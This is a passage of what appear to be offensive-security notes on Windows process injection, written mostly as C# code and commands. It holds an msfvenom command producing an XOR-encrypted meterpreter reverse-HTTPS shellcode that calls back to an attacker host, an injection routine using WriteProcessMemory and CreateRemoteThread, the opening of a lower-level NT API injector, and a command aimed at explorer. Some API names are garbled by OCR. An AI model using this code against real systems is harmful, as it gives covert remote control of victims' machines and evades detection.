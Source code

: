                 // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
                byte[] buf = new byte[644] {0x9d,0x29,0xe2,0x85,0x91,0x89,........................................

                // XOR-decrypt the shellcode
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(buf[i] ^ (byte)'a');
                }

                IntPtr outSize;
                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            }
        }
    }

#### NTAPI Process Injector (.exe):

    //Lower level
    //Uses NtCreateSection, NtMaPView_%hName%OfSection, RtlCreateUserThread, NtUnmaPView_%hName%OfSection - only works from 64bit processes
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
    \\192.168.45.224\visualstudio\ConsoleApp1\NtProcessInjector\bin\x64\Release\NtProcessInjector.exe explorer

    ###NTAPI METHOD:###
    using System;
    using System.Linq;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    using System.IO;
    using System.Net;

    namespace NtProcessInjector
    {
        public class Program
        {
            public const uint PROCESS_ALL_ACCESS = 0x001F0FFF;
            public const uint SECTION_MAP_READ = 0x0004;
            public const uint SECTION_MAP_WRITE = 0x0002;
            public const uint SECTION_MAP_EXECUTE = 0x0008;
            public const uint PAGE_READ_WRITE = 0x04;
            public const uint PAGE_READ_EXECUTE = 0x20;
            public const uint PAGE_EXECUTE_READWRITE = 0x40;
            public const uint SEC_COMMIT = 0x8000000;

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

            [DllImport("ntdll.dll", SetLastError = true, ExactSpelling = true)]
            static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, UInt32 DesiredAccess, IntPtr ObjectAttributes, ref UInt32 MaximumSize, UInt32 SectionPageProtection, UInt32 AllocationAttributes, IntPtr FileHandle);
